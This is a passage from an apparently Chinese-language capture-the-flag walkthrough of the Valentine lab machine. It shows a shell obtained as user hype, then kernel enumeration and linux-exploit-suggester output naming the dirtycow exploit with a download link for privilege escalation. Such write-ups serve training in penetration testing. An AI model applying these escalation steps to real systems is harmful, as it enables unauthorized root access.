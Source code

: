 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

``` 

成功拿到初始shell

# 提权


## 提权方法一
查看系统内核：
```
hype@Valentine:/tmp$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

```

linux版本比较旧，可以考虑内核提权

使用github上[这个](https://github.com/mzet-/linux-exploit-suggester)内核枚举漏洞脚本

```
vailable information:

Kernel version: 3.2.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 12.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

76 kernel space exploits
48 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
